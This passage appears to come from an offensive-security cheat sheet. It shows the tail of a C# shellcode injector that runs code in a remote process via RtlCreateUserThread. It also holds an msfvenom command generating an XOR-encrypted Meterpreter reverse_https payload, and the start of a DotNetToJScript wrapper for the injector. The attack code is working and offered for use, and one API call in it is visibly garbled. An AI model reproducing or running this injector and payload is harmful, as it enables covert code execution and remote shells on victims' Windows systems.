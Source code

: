                 // Execute the shellcode in a remote thread (also can be done with CreateRemoteThread)
                //CreateRemoteThread(hRemoteProcess, IntPtr.Zero, 0, baseAddressR, IntPtr.Zero, 0, IntPtr.Zero)
                IntPtr threadHandle = new IntPtr();
                if (RtlCreateUserThread(hRemoteProcess, IntPtr.Zero, false, 0, IntPtr.Zero, IntPtr.Zero, baseAddressR, IntPtr.Zero, ref threadHandle, IntPtr.Zero) != IntPtr.Zero)
                {
                    Console.WriteLine("[-] Failed to create a remote thread");
                    return;
                }

                Console.WriteLine($"[+] Successfully injected shellcode into remote process ({processName}, {processId})");

                // Clean up
                NtUnmaPView_%hName%OfSection(hLocalProcess, baseAddressL);
                NtClose(hSection);
            }
        }
    }

#### DotNetToJscript-wrapped Injector (using NTAPI method) (.js):

    //msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a


    ###DotNetToJscript as an Injector (using NTAPI method):###
    (ExampleAssembly - TestClass.cs):
    //    This file is part of DotNetToJScript.
    //    Copyright (C) James Forshaw 2017
    //
    //    DotNetToJScript is free software: you can redistribute it and/or modify
    //    it under the terms of the GNU General Public License as published by
    //    the Free Software Foundation, either version 3 of the License, or
    //    (at your option) any later version.
    //
    //    DotNetToJScript is distributed in the hope that it will be useful,
    //    but WITHOUT ANY WARRANTY; without even the implied warranty of
    //    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    //    GNU General Public License for more details.
    //
    //    You should have received a copy of the GNU General Public License
    //    along with DotNetToJScript.  If not, see <http://www.gnu.org/licenses/>.

    using System;
    using System.Linq;
    using System.Diagnostics;
    using System.Runtime.InteropServices;
    using System.IO;
    using System.Net;


    [ComVisible(true)]
    public class TestClass
    {
        public const uint PROCESS_ALL_ACCESS = 0x001F0FFF;
        public const uint SECTION_MAP_READ = 0x0004;
        public const uint SECTION_MAP_WRITE = 0x0002;
        public const uint SECTION_MAP_EXECUTE = 0x0008;
        public const uint PAGE_READ_WRITE = 0x04;
        public const uint PAGE_READ_EXECUTE = 0x20;
        public const uint PAGE_EXECUTE_READWRITE = 0x40;
        public const uint SEC_COMMIT = 0x8000000;
